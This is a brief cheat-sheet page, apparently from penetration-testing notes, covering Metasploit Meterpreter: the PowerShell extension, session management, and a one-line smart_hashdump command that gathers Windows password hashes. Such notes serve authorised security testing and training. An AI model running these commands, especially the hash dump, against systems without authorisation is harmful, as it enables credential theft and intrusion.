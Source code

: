 #### Meterpreter Extensions

Extension provide additional functionality to the meterpreter shell.  These can be loaded from within the meterpreter session:

##### Powershell

Allows you to run Powershell commands and scripts.

```bash
# Load the module
load powershell

# Execute a command
powershell_execute "COMMAND"

# Import a Powershell script
powershell_import SCRIPT

# Start a Powershell prompt
powershell_shell
```

#### Hash Dumping

```bash
run post/windows/gather/smart_hashdump
```

### Session Management

Once a remote session is established, it can be managed with the following.  These commands are performed from the module menu:

```bash
# Show all sessions
sessions -l

# Interact with session N
sessions -i N
```

These commands are performed from within the meterpreter session:

```bash
# Background the session
background
	#OR
CTRL+Z

# Kill the session
exit
	#OR
CTRL+C
```
